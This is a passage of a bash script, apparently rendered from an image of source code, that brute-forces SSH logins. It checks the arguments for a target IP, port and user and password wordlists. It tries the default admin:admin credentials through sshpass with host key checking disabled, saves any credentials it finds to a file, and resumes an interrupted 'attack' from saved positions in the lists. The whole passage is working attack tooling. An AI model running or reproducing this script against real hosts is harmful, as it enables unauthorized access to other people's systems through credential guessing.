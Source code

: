 ```bash
 if [ -f "$pthdir/x0x901f22result.txt" ]; then
    pass=$(grep -o "d: '.*'" x0x901f22result.txt | cut -d ":" -f2)
    echo "File '$pthdir/x0x901f22result.txt' contains saved password:$pass, nothing to do" && exit
 fi

 type -P sshpass 1>/dev/null
 [ "$?" -ne 0 ] && echo "Utillity 'sshpass' not found, exiting" && exit

 if [ -z "$ip" ]; then
    echo "IP address can't be empty, exiting"
    usage
    exit
 fi

 [ -z "$nval" ] && nval=0.1                                                  # Use default value 0.1s if no -n is entered

 [ -z "$port" ] && echo "TCP port can'be empty, exiting" && usage && exit
 if [[ "$port" =~ ^[[:digit:]]+$ ]]; then
    if ( [ "$port" -gt 65535 ] || [ "$port" -eq 0 ] ); then
       echo "TCP port has to be in range 1 - 65535"
       usage
       exit
    fi
 else
    echo "TCP port must be digit, exiting"
    usage
    exit
 fi

 [ ! -f "$passlist" ] && echo "Can't find file with list of passwords, exiting" && usage && exit
 [ ! -f "$userlist" ] && echo "Can't find file with list of users, exiting" && usage && exit
 fullpasslist="$passlist"                                                                         #Backup original passlist
 fulluserlist="$userlist"                                                                         #Backup oroginal userlist

 # Check SSH connection
 echo -n "Checking SSH connection to '$ip': "
 sshpass -p admin ssh -6 -o StrictHostKeyChecking=no -o ConnectTimeout=8 -p "$port" admin@"$ip" exit &>/dev/null; rvalssh="$?"
 if [ "$rvalssh" == 0 ]; then
    echo "*** OK ***"
    echo "*** Found username: 'admin' and password: 'admin' ***"  > "$pthdir/x0x901f22result.txt"
    evaluate_result
 elif [ "$rvalssh" == 255 ]; then
    echo "*** FAIL ***"
    echo "*** Can't establish SSH connection to '$ip', exiting ***" && exit
 else
    echo "*** OK ***"
 fi

# Read saved username and password from file 01xza01.txt, if file exists read saved credentials from file
    if [ -f "$pthdir/01xza01.txt" ]; then
       lastuser=$(head -1 "$pthdir/01xza01.txt" | cut -d ":" -f1)
       lastpass=$(head -1 "$pthdir/01xza01.txt" | cut -d ":" -f2)
       echo "Found file: '$pthdir/01xza01.txt' containig previously saved username: '$lastuser' and password: '$lastpass'"
       echo "Restoring attack using username '$lastuser' and password '$lastpass'"
       row1user=$(grep -wno "^$lastuser$" "$userlist"); rvaluser="$?"
       row1pass=$(grep -wno "^$lastpass$" "$passlist"); rvalpass="$?"

```